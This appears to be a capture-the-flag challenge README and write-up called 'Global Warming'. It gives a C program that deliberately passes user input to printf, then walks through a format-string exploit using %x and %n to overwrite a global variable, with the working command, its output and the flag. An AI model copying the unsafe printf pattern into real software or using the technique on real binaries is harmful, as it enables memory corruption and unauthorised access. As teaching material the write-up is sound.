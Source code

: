 # Global Warming

Author: [AJ1479](https://github.com/AJ1479)

## Description

String format exploit to overwrite global variable.

## Requirements

- Basic Knowledge of string format exploit.
- Docker: [Dockerfile](./Dockerfile)

## Sources

- [global-warming](./bin/global-warming): Binary

```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>

int admin = 0;

void login(char username[10],char* pass)
{

	printf(pass);
	if(admin != 0)
	{
		system("cat flag.txt");
	}
	else 
	{
		printf("You cannot login as admin.");
	}
}

int main(int argc, char **argv)
{
	setbuf(stdout, NULL);
        setbuf(stdin, NULL);
        setbuf(stderr, NULL);
	login("User",argv[1]);
}


```

```
Greta Thunberg 1 Administration 0
```

## Exploit

The program has a global variable `admin`, the value of which needs to be changed. Looking at the program we see a printf statement, printing our input in argv[1]. Here, we need to use the string format exploit. We use `%x` as the format string input which returns values from the stack. We're also going to use the `%n` which writes the number of characters before the `%n` to the address just above(before) it in the stack. Also, memory addresses of global variables are stored in can be easily read from the `objdump` of the binary.
<br />

Steps to solve the challenge:
1) Find out the memory address of `admin` using the command `objdump -t <binary of file>` this is where we need to write a non-zero value.
2) Input a bunch of `%x`s to the program that will print values off of the stack.
3) If you print enough number of `%x `s (It's a good idea to put a space after the `%x` to make printed values more readable), you get a recurring pattern (something like 25207825 78252078) and you realise you're seeing the `%x`s (something you can probably figure out by the 25s which stand for blank spaces).\
4) What you need to do is to ensure that the last byte you print is the memory address of `admin` as you want to modify the value stored there. You do this by using recognizable characters and some trial and error; changing the number of `%x `s
5) When you reach this point you can replace the last `%x ` with `%n ` which should overwrite the value of `admin` with some number (the number of characters printed before it) and give you the flag.
<br />

```bash
$ ./global-warming "`python -c "print 'AAAA\x28\xa0\x04\x08' + '%x '*142+'%n '"`"
AAAA(0 2000 8048502 f7fa6d80 804a000 ffffd3e8 80485c6 8048688 ffffd5d8 ffffd4a0 8048564 2 ffffd494 ffffd4a0 ffffd400 0 f7fa6000 0 f7de9e91 f7fa6000 f7fa6000 0 f7de9e91 2 ffffd494 ffffd4a0 ffffd424 1 0 f7fa6000 f7fe577a f7ffd000 0 f7fa6000 0 0 9de4600d df70c61d 0 0 0 2 80483e0 0 f7feadc0 f7fe59d0 804a000 2 80483e0 0 8048412 804854c 2 ffffd494 80485e0 8048640 f7fe59d0 ffffd48c f7ffd940 2 ffffd5c7 ffffd5d8 0 ffffd78e ffffdd7a ffffddac ffffddce ffffdddb ffffddef ffffde02 ffffde0e ffffde24 ffffde36 ffffde56 ffffde79 ffffdeba ffffdecd ffffdee3 ffffdeee ffffdefe ffffdf06 ffffdf15 ffffdf34 ffffdfb4 ffffdfd4 0 20 f7fd5070 21 f7fd4000 10 f8bfbff 6 1000 11 64 3 8048034 4 20 5 9 7 f7fd6000 8 0 9 80483e0 b 3eb c 3eb d 3eb e 3eb 17 0 19 ffffd5ab 1a 0 1f ffffdfe7 f ffffd5bb 0 0 0 ce000000 30df01aa 73f93126 34fcc4c2 695d916f 363836 0 2e000000 6f6c672f 2d6c6162 6d726177 676e69 41414141  csictf{n0_5tr1ng5_@tt@ch3d}
```

The flag is:

```
csictf{n0_5tr1ng5_@tt@ch3d}
```